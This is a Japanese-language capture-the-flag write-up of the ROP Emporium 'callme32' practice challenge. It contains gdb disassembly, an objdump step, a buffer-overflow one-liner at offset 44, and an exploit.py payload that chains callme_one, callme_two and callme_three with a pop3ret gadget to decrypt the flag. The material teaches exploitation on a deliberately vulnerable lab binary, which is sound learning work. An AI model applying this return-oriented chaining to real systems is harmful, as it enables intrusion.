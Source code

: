 ```
patto -> 44
```

ようやくROPらしい問題

libcallme32.so という共有ライブラリが渡されている

```
gdb-peda$ i func
All defined functions:

Non-debugging symbols:
0x08048558  _init
0x08048590  printf@plt
0x080485a0  fgets@plt
0x080485b0  callme_three@plt
0x080485c0  callme_one@plt
0x080485d0  puts@plt
0x080485e0  exit@plt
0x080485f0  __libc_start_main@plt
0x08048600  setvbuf@plt
0x08048610  memset@plt
0x08048620  callme_two@plt
0x08048640  _start
0x08048670  __x86.get_pc_thunk.bx
0x08048680  deregister_tm_clones
0x080486b0  register_tm_clones
0x080486f0  __do_global_dtors_aux
0x08048710  frame_dummy
0x0804873b  main
0x080487b6  pwnme
0x0804880c  usefulFunction
0x08048850  __libc_csu_init
0x080488b0  __libc_csu_fini
0x080488b4  _fini
```

`callme_one, callme_two, callme_three, usefulFunction` 辺りを使いそう

```
gdb-peda$ disas usefulFunction
Dump of assembler code for function usefulFunction:
0x0804880c <+0>: push   ebp
0x0804880d <+1>:  mov    ebp,esp
0x0804880f <+3>: sub    esp,0x8
0x08048812 <+6>:  sub    esp,0x4
0x08048815 <+9>: push   0x6
0x08048817 <+11>: push   0x5
0x08048819 <+13>:  push   0x4
0x0804881b <+15>: call   0x80485b0 <callme_three@plt>
0x08048820 <+20>:  add    esp,0x10
0x08048823 <+23>: sub    esp,0x4
0x08048826 <+26>:  push   0x6
0x08048828 <+28>: push   0x5
0x0804882a <+30>:  push   0x4
0x0804882c <+32>: call   0x8048620 <callme_two@plt>
0x08048831 <+37>:  add    esp,0x10
0x08048834 <+40>: sub    esp,0x4
0x08048837 <+43>:  push   0x6
0x08048839 <+45>: push   0x5
0x0804883b <+47>:  push   0x4
0x0804883d <+49>: call   0x80485c0 <callme_one@plt>
0x08048842 <+54>:  add    esp,0x10
0x08048845 <+57>: sub    esp,0xc
0x08048848 <+60>:  push   0x1
0x0804884a <+62>: call   0x80485e0 <exit@plt>
 ```

とりあえず `usefulFunction` に飛ばしてみるも確か `callme_three` でつまずく

`callme_one, callme_two, callme_three` の詳細を知るために、渡された共有ライブラリを逆アセンブルする

```shell
$ objdump -d -M intel libcallme32.so > libcallme32.dis
```

軽く見てみるとone, two, threeとも1,2,3という引数が渡されているかチェックしていて、間違っていると `Incorrect parameters` と表示するようになっている

よって、とりあえず `callme_three` を引数1,2,3で呼んでみる

```shell
$ python -c 'print "A" * 44 + "\xb0\x85\x04\x08" + "A" * 4 + "\x01\x00\x00\x00" + "\x02\x00\x00\x00" + "\x03\x00\x00\x00"' > input.txt
$ gdb callme32

gdb-peda$ b *0x0804880b # pwnmeのretにBreakpoint
Breakpoint 1 at 0x804880b
gdb-peda$ run < input.txt
```

すると `callme_three` は `key2.dat` というファイルを開いているのがわかる。同様に他の２つも見てみると、 `callme_two` が `key1.dat` を `callme_one` が `encrypted_flag.txt` を開いているのがわかる。

よって、 `callme_one` を呼んでから `callme_two` , `callme_three` の順に呼べばデコードしてくれそうだなと推測する。

やってみると、

```shell
~/yyy-d/work/ctf/pwn/ROP-Emporium/callme32:yyy@[master](๑˃̵ᴗ˂̵)ﻭ < python exploit.py
[+] Starting local process './callme32': pid 14010
callme by ROP Emporium
32bits

Hope you read the instructions...
>
[*] Process './callme32' stopped with exit code 0 (pid 14010)
ROPE{a_placeholder_32byte_flag!}
```

コードはexploit.pyにある


exploit.pyより
```python
payload = ''
payload += 'A' * 44
payload += "\xc0\x85\x04\x08"  # callme_one@plt
payload += "\xa9\x88\x04\x08"  # pop3ret (return addr)
payload += argument # callme_one(1, 2, 3)
payload += "\x20\x86\x04\x08"  # callme_two@plt
payload += "\xa9\x88\x04\x08"  # pop3ret
payload += argument
payload += "\xb0\x85\x04\x08"  # calle_three@plt
payload += 'A' * 4             # padding
payload += argument
payload += '\n'
```
本来 `callme_one` のreturnアドレスが入るところにはpop3ret gadgetを置いている

これにより、 `callme_one` に渡した引数3つをスタックから除くことができ、スタックをいい感じに調整できる

他の2つも同様に、いい感じに配置する
